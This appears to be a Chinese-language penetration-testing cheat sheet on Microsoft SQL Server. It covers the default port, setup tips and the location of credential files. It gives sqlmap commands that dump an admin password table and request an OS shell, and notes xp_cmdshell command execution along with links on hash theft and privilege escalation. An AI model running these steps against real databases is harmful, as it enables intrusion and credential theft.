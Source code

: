 # SqlServer

端口 1433


__工具__

* SQLTools 2.0

## SqlServer 2000 在win7x64安装条件

1.计算机名更改为全用大写字符就可以了。
2.设置SETUPSQL.exe 兼容性为winxp, 管理员身份证运行

## 转义
sqlsserver 用"" 来转义 "

## 删除/备份/导入导出
cracer.mdf
cracer_log.ldf

两个文件都要备份提取。

数据库Path: C:\Progran Files\Microsoft SQL Server\MSSQL10_50.HSSOLSERVER\MSSQL\DATA

## 数据库权限
```
sa权限 - system
db权限 - users-adminstrators
public - guest-users
```

```bash
sqlmap -u http://url.php?id=1 --current-db --batch # 得到test
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
```

## config密码等 

在asp web的目录下

web.config

## 命令执行

方法一：xp_cmdshell 

exec master..xp_cmdshell "whoami"默认执行是关闭 

https://blog.csdn.net/weixin_30654583/article/details/97225375

# Article
[窃取MSSQL 各版本密码 HASH](https://mp.weixin.qq.com/s/w9NqP4AqDth6sLbHAPF4AQ)
[sql server提权总结](https://mp.weixin.qq.com/s/3Q6meWdMLfls5cK1j80tFw)
[MSSQL注入和漏洞利用姿势总结](https://mp.weixin.qq.com/s/OakfrGRvYPYGFLY_30aj5w)
[红队必修课之针对MSSQL数据库攻击尝试](https://forum.butian.net/share/1390)
[关于mssql注入的知识分享](https://mp.weixin.qq.com/s/sXt9zd18lD4Al4OC3mmsKw)
[MSSQL渗透tips总结](https://mp.weixin.qq.com/s/TjZGGQY9blMMv-ERtCklDw)

